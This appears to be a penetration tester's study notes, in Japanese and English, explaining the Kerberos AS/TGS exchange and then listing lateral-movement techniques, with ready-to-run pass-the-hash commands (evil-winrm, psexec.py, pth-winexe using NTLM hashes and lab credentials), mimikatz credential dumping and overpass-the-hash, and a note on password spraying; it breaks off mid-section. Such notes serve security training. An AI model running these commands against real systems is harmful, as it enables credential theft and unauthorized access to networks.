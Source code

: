 ```        
- Test each password against all active user accounts, except privileged user accounts (admincount=1).
- Output script progress/status information to console.

# Kerberos認証
## AS_REQ
- タイムスタンプ
- ユーザ名
（ユーザのハッシュで暗号化）

## AS_REP
- セッションキー①（ユーザのパスワードハッシュで暗号化）
- TGT（KDCのみが知っている秘密鍵（= **krbtgtというドメインユーザアカウントのパスワードハッシュ**）で暗号化）

（TGTにはグループメンバーシップ、ドメイン、タイム スタンプ、クライアントの IP アドレス、セッションキー①等が含まれる）

ここまでで、クライアント認証が完了。  次に「サービスチケット」を得る。

## TGS_REQ
- ユーザ名、タイムスタンプ（セッションキー①で暗号化）、リソースのSPN
- TGT（KDCのみが知っている秘密鍵（＝krbtgtのパスワードハッシュ）で暗号化）

## TGS_REP
- サービスチケット（その中にはセッションキー②）

##AP_REQ
- ユーザ名、タイムスタンプ（セッションキー②で暗号化）
- サービスチケット



# Lateral Movement~
## Pass The Hash
c.f.) https://book.hacktricks.xyz/pentesting/pentesting-smb

```
evil-winrm -i 10.11.1.121 -u sqlServer -p shantewhite

evil-winrm -u Administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e  -i 192.168.177.10

psexec.py alice:ThisIsTheUsersPassword01@10.11.1.50 cmd.exe

psexec.py Administrator@10.10.3.190 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc

pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

## Over Pass The Hash

> overpass the hash テクニックの本質は、NTLM ハッシュを Kerberos チケットに変換し、 NTLM 認証を回避することにあります。これを行なう簡単な方法は、やはり Mimikatz の sekurlsa::pth コマンドです。

Converting NTLM hash to TGT and get another user's shell. 

(That user's hash can be got by `sekurlsa::logonpasswords`.)

```mimikatz# sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe ```

<- I can execute commands on this PowerSHell as Jeff_Admin user

Generating TGT:

```